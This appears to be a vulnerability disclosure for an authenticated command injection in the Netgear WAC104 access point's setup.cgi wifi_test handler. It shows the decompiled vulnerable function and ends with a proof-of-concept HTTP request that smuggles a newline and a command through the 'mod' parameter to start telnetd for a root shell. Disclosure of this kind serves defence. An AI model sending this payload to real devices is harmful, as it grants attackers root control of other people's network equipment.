 ## Netgear WAC104 todo=wifi_test Authentication Command Injection Remote Command Execution Vulnerability

### 1.Vulnerability description

A authenticated remote command injection vulnerability exists in Netgear WAC104, which can be exploited by an authenticated remote attacker to cause Remote command execution (RCE) on an affected Netgear WAC104.<br>



The vulnerability exists in the latest firmware version ： WAC104-V1.0.4.21.img<br>

Firmware download address : https://www.downloads.netgear.com/files/GDC/WAC104/WAC104_firmware_V1.0.4.21.zip?_ga=2.248054530.446711973.1711967533-1975873394.1711967533<br>

### 2.Vulnerability details

The vulnerability is in the /usr/sbin/setup.cgi file.<br>

The vulnerability occurs in the function that handles the todo=wifi_test.<br>

```
int __fastcall sub_409C50(int a1)
{
  const char *v2; // $s2
  const char *v3; // $s1
  const char *v4; // $s0

  v2 = find_val_safe(a1, "channel");
  if ( !v2 )
    v2 = " ";
  v3 = find_val_safe(a1, "rate");
  if ( !v3 )
    v3 = " ";
  v4 = find_val_safe(a1, "mod");
  if ( !v4 )
    v4 = " ";
  COMMAND("/usr/sbin/rc fcc fcc:c%s:r%s:m%s", v2, v3, v4); //  Command Injection !!!
  html_parser("fcc.htm", a1, &key_fun_tab);
  printf("Command==fcc:c%s:r%s:m%s", v2, v3, v4);
  return 0;
}
```

The mod parameter is controlled by the attacker, and then a call to the COMMAND function can cause command injection.<br>

### 3.Vulnerability exploitation

The effect of the current exploitation is command injection.<br>

I got the root shell by executing the following command.<br>

```
data = b""
data += b"GET /setup.cgi?todo=wifi_test&channel=1&rate=1&mod=%0a/usr/sbin/utelnetd HTTP/1.1\r\n"
```